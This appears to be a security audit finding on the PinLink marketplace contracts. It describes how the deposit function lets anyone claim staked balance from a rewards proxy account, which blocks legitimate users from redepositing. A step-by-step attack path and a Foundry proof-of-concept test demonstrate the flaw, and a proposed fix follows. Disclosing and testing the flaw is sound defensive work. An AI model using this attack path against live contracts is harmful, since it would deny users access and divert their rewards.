 Savory Mocha Coyote

High

# Proxy Account Balance Depletion Leads to Denial of Service for Legitimate Depositors

### Summary

A critical design flaw in the deposit mechanism will cause legitimate users to be unable to redeposit their withdrawn assets as attackers can deplete the proxy account's balance, effectively preventing rightful users from participating in the protocol and unfairly distributing rewards.

### Root Cause

In [pinklinkShop::_deposit](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/pinlinkShop.sol#L522C5-L532C6) , shares  are being transferred from proxy to the depositor without verifying that the depositor previously withdrew those shares. This allows any user with assets to deposit them and claim shares from the proxy account's balance.


```solidity
function _deposit(address fractionalAssets, uint256 tokenId, uint256 amount) internal {
        // it is only possible to deposit in already enabled assets in the ecosystem
        if (!streams[fractionalAssets][tokenId].isEnabled()) revert AssetNotEnabled();

        // When assets are withdrawn, the rewards are directed to the feeReceiver.
        // When they are deposited back, they are redirected to the staker who deposits

@>   streams[fractionalAssets][tokenId].transferBalances(REWARDS_PROXY_ACCOUNT, msg.sender, amount);

        emit FractionsDeposited(fractionalAssets, tokenId, amount, msg.sender);
        IFractionalAssets(fractionalAssets).safeTransferFrom(msg.sender, address(this), tokenId, amount, "");
    }

```

`transferBalances` are defined as below in [streams.sol](https://github.com/sherlock-audit/2025-03-pinlink-rwa-tokenized-depin-marketplace/blob/main/marketplace-contracts/src/marketplaces/streams.sol#L74C5-L79C6)
```solidity
function transferBalances(RewardsStream storage self, address from, address to, uint256 amount) internal {
        self.updateRewards(from);
        self.updateRewards(to);
        self.stakedBalances[from] -= amount;
        self.stakedBalances[to] += amount;
    }
```





### Internal Pre-conditions

1. The REWARDS_PROXY_ACCOUNT needs to have a non-zero balance of shares for a specific tokenId (which happens when any user withdraws assets)
2. A user needs to possess fractions of that tokenId (can be acquired directly, not necessarily through the PinlinkShop)

### External Pre-conditions

None

### Attack Path

- Legitimate User A withdraws their assets from PinlinkShop, transferring their staking balance to the REWARDS_PROXY_ACCOUNT
- Attacker B acquires fractions of the same asset directly (outside PinlinkShop)
- Attacker B calls depositAsset() with their fractions
- The system transfers staking balance from REWARDS_PROXY_ACCOUNT to Attacker B
- Legitimate User A attempts to redeposit their assets but the transaction fails because REWARDS_PROXY_ACCOUNT's balance has been 
 depleted

### Impact

Legitimate users who withdraw assets cannot redeposit them if the proxy account's balance for that asset has been depleted. This creates an unfair advantage for malicious users who can essentially "steal" rewards distribution from the system without having ever withdrawn assets, and prevents legitimate users from participating in the protocol as expected. The protocol's core functionality of allowing users to freely withdraw and redeposit assets is broken.

### PoC

```solidity
function test_depositRaceCondition() public {
    // Setup
    vm.startPrank(admin);
    pshop.enableAsset(address(fractions), asset1, admin);
    bytes32 listingId = pshop.list(address(fractions), asset1, 100, 1000e18, block.timestamp + 5 days);
    vm.stopPrank();
    
    // First, Alice purchases 50 tokens
    deal(address(PIN), alice, 100_000e18);
    vm.prank(alice);
    PIN.approve(address(pshop), type(uint256).max);
    _doPurchase(listingId, 50, alice);
    
    // Alice withdraws her 50 tokens
    vm.startPrank(alice);
    pshop.withdrawAsset(address(fractions), asset1, 50, alice);
    fractions.setApprovalForAll(address(pshop), true);
    vm.stopPrank();
    
    // At this point, proxy should have 50 tokens
    address proxyAccount = pshop.REWARDS_PROXY_ACCOUNT();
    assertEq(_stakedBalance(address(fractions), asset1, proxyAccount), 50);
    
    // Bob gets some tokens directly (represents a new user)
    vm.prank(admin);
    fractions.safeTransferFrom(admin, bob, asset1, 40, "");
    
    // Bob tries to deposit tokens even though he never withdrew them
    vm.startPrank(bob);
    fractions.setApprovalForAll(address(pshop), true);
    pshop.depositAsset(address(fractions), asset1, 40);
    vm.stopPrank();
    
    // Bob's deposit succeeds, stealing from proxy's balance
    assertEq(_stakedBalance(address(fractions), asset1, proxyAccount), 10);
    assertEq(_stakedBalance(address(fractions), asset1, bob), 40);
    
    // Now Alice tries to redeposit her tokens
    vm.prank(alice);
    // This will fail if Alice tries to deposit more than 10 tokens
    vm.expectRevert(); // This should revert with underflow
    pshop.depositAsset(address(fractions), asset1, 20);
}
```

### Mitigation

The system should track which users have withdrawn assets and only allow them to redeposit up to the amount they withdrew. This could be implemented by:

- Adding a mapping to track withdrawn balances per user:
```solidity
mapping(address fractionalAssets => mapping(uint256 tokenId => mapping(address user => uint256 amount))) internal _withdrawnBalances;
```
- Updating the withdrawal function to record withdrawn amounts:
```solidity
function withdrawAsset(address fractionalAssets, uint256 tokenId, uint256 amount, address receiver) external {
    // existing code...
    _withdrawnBalances[fractionalAssets][tokenId][msg.sender] += amount;
    // rest of existing code...
}
```
- Modifying the deposit function to verify and limit deposits:
```solidity
function _deposit(address fractionalAssets, uint256 tokenId, uint256 amount) internal {
    // ...existing validation...
    
    uint256 withdrawnAmount = _withdrawnBalances[fractionalAssets][tokenId][msg.sender];
    if (withdrawnAmount < amount) revert InsufficientWithdrawnBalance();
    
    _withdrawnBalances[fractionalAssets][tokenId][msg.sender] -= amount;
    streams[fractionalAssets][tokenId].transferBalances(REWARDS_PROXY_ACCOUNT, msg.sender, amount);
    
    // ...rest of function...
}
```
This ensures that users can only redeposit assets they previously withdrew, maintaining fairness in the system

